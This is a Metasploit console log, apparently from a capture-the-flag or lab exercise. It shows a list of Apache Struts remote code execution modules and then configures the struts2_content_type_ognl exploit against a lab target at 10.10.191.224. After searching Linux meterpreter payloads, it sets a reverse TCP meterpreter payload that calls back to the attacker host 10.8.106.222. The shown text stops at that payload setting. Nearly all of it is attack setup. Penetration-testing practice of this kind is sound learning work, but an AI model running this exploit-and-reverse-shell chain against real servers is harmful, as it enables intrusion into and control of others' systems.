 ```
   4  exploit/multi/http/struts_code_exec_classloader  2014-03-06       manual     No     Apache Struts ClassLoader Manipulation Remote Code Execution
   5  exploit/multi/http/struts_code_exec_parameters   2011-10-01       excellent  Yes    Apache Struts ParametersInterceptor Remote Code Execution
   6  exploit/multi/http/struts_dev_mode               2012-01-06       excellent  Yes    Apache Struts 2 Developer Mode OGNL Execution


Interact with a module by name or index, for example use 6 or use exploit/multi/http/struts_dev_mode

msf5 exploit(multi/http/struts2_content_type_ognl) > set TARGETURI /showcase.action
TARGETURI => /showcase.action
msf5 exploit(multi/http/struts2_content_type_ognl) > set LHOST 10.8.106.222
LHOST => 10.8.106.222
msf5 exploit(multi/http/struts2_content_type_ognl) > set RHOSTS 10.10.191.224
RHOSTS => 10.10.191.224
msf5 exploit(multi/http/struts2_content_type_ognl) > set RPORT 80
RPORT => 80


msf5 exploit(multi/http/struts2_content_type_ognl) > search payload/linux/x86/meterpreter

Matching Modules
================

   #   Name                                              Disclosure Date  Rank    Check  Description
   -   ----                                              ---------------  ----    -----  -----------
   0   payload/linux/x86/meterpreter/bind_ipv6_tcp                        normal  No     Linux Mettle x86, Bind IPv6 TCP Stager (Linux x86)
   1   payload/linux/x86/meterpreter/bind_ipv6_tcp_uuid                   normal  No     Linux Mettle x86, Bind IPv6 TCP Stager with UUID Support (Linux x86)
   2   payload/linux/x86/meterpreter/bind_nonx_tcp                        normal  No     Linux Mettle x86, Bind TCP Stager
   3   payload/linux/x86/meterpreter/bind_tcp                             normal  No     Linux Mettle x86, Bind TCP Stager (Linux x86)
   4   payload/linux/x86/meterpreter/bind_tcp_uuid                        normal  No     Linux Mettle x86, Bind TCP Stager with UUID Support (Linux x86)
   5   payload/linux/x86/meterpreter/find_tag                             normal  No     Linux Mettle x86, Find Tag Stager
   6   payload/linux/x86/meterpreter/reverse_ipv6_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager (IPv6)
   7   payload/linux/x86/meterpreter/reverse_nonx_tcp                     normal  No     Linux Mettle x86, Reverse TCP Stager
   8   payload/linux/x86/meterpreter/reverse_tcp                          normal  No     Linux Mettle x86, Reverse TCP Stager
   9   payload/linux/x86/meterpreter/reverse_tcp_uuid                     normal  No     Linux Mettle x86, Reverse TCP Stager
   10  payload/linux/x86/meterpreter_reverse_http                         normal  No     Linux Meterpreter, Reverse HTTP Inline
   11  payload/linux/x86/meterpreter_reverse_https                        normal  No     Linux Meterpreter, Reverse HTTPS Inline
   12  payload/linux/x86/meterpreter_reverse_tcp                          normal  No     Linux Meterpreter, Reverse TCP Inline


Interact with a module by name or index, for example use 12 or use payload/linux/x86/meterpreter_reverse_tcp

msf5 exploit(multi/http/struts2_content_type_ognl) > set PAYLOAD payload/linux/x86/meterpreter/reverse_tcp
```